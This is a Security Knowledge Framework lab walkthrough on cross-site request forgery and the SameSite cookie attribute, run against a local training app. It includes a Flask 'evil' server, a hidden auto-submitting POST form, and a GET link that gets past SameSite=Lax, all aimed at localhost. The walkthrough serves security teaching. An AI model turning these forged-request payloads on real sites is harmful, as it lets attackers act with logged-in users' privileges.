






# KBID 5 - CSRF - Samesite

## Running the app Java

First make sure java is installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following command:

```
$ ./mvnw spring-boot:run
```


Now that the app is running let's go hacking!


## Reconnaissance

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim's behalf. For most sites, browser requests automatically include any credentials associated with the site, such as the user's session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the victim and a legitimate request sent by the victim.

CSRF attacks target functionality that causes a state change / data mutation on the server, such as changing the victim's email address or password, or purchasing something. Forcing the victim to retrieve data doesn't benefit an attacker because the attacker doesn't receive the response, the victim does. As such, CSRF attacks target state-changing requests.

It's sometimes possible to store the CSRF attack on the vulnerable site itself. Such vulnerabilities are called "stored CSRF flaws". This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack. If the attack can store a CSRF attack in the site, the severity of the attack is amplified. In particular, the likelihood is increased because the victim is more likely to view the page containing the attack than some random page on the Internet. The likelihood is also increased because the victim is sure to be authenticated to the site already.

Lets start the application and login with the default credentials.

```
username : admin
password: admin
```


When we are loggedin to the application we can see that we can set our favorite color and this will be stored in the session of the user.



If we inspect the request with an intercepting proxy we can see that the application is performing a POST request that results in a data mutation, storing our favorite color into the session of the user and displaying this back to the user in the HTML website.


Also we can see that the application is not using any form of protection for preventing CSRF because there is no unique token being send in the POST request.

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from. We could achieve this by creating the following python flask application.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to > app.py and run the commands below to install some dependencies.

```
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```markup
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://localhost:5000/update' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='color' value='Hackzord!'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

Save the snippet above to > templates/evil.html and run the command below to start our evil application.

```
$ python app.py
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```
http://localhost:1337/
```

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from.



Also when we refresh the original page of the application we can see that the new value has been replaced with the content of our evil app.


## SameSite Attribute

The modern browsers have introduced a defense in depth mechanism against CSRF type of attacks, the _SameSite_ cookie attribute.

```text
Set-Cookie: session=eyJsb2dnZWRpbiI6dHJ1ZSwidXNlcklkIjoxfQ.EF0EsA.9BZ_v9-AKp7lPsL1NV9xOECWMog;
HttpOnly; Path=/; SameSite=Strict
```

This attribute allows the user-agents to identify whether a cookie should be sent along with cross-site-requests or not.

It can be set with the following values:

| Value  | Result                                                                                                                                                                |
| ------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Strict | Cookie will be only sent with same-site requests.                                                                                                                     |
| Lax    | Cookie will be sent with same-site requests and, also, with cross-site-requests generated after top-level navigation (by clicking on a link) that are not CSRF-prone. |
| None   | Cookies will always be sent with cross-site-requests.                                                                                                                 |

To make this concept more clear, let's exercise it within this SKF Lab.

In the home page, use the Secure Login form for authentication.



You can note in Burp's response tab the cookie was set with _samesite=strict_.

```text
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 4082
ETag: W/"ff2-XEMwbjHvGAb56yri6EpFyiL/kY8"
Set-Cookie: session=eyJ1c2VySWQiOjEsImxvZ2dlZEluIjp0cnVlLCJjb2xvciI6IkhhY2t6b3JkISJ9; path=/; expires=Fri, 07 Jan 2022 09:02:38 GMT; samesite=strict; httponly
Date: Thu, 06 Jan 2022 09:02:38 GMT
Connection: close
```

Set your preferred color.

Now, in a different browser tab, try to run again the CSRF attack.


Go back to the first tab and check if the color was changed by the CSRF attack or not by clicking on _refresh the page_.


Nothing has changed!

Looking at request logged in Burp, we can understand the reason.



As the cookie was set in _Strict_ mode, the browser was instructed to not send it with any cross-site-request. Thus, as Color Change requires an authenticated session, this request is treated as anonymous one and, therefore,rejected by the application.

Let's see how _Lax_ mode works, by using the _Login Still Insecure_ authentication form.



You can note in Burp's response tab the cookie was set with _samesite=lax_.

```text
HTTP/1.1 200
Set-Cookie: JSESSIONID=47E66DEEF0573AA9424106A5F6F59940; HttpOnly; SameSite=lax
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Date: Thu, 17 Mar 2022 09:36:03 GMT
Connection: close
Content-Length: 3531
```

Set your preferred color and once again run the CSRF attack in a different tab.

Go back to the first tab and check if the color has changed by the CSRF attack or not, by clicking on _refresh the page_.

Nothing has changed again! _Lax_ mode also blocked the cookie to be sent over POST cross-site-request.



This lab was specially designed to also accept GET query string parameters for color changing.

Now adapt the CSRF Evil Server page to send a GET request as link and click on it.

```html
<a href="http://localhost:5000/update?color=Hackzord%21">Try with GET method</a>
```


The request will be executed containing the required cookies, therefore, the CSRF attack is successful.


_Lax_ mode allowed the browser to send the cookie through the cross-site-request after top-level navigation using a non-CSFR method (GET). In other words, if the application accepts GET query string parameters to change data in persistence(or allows POST requests being converted into GET), CSRF attack will also succeed.

## Additional sources








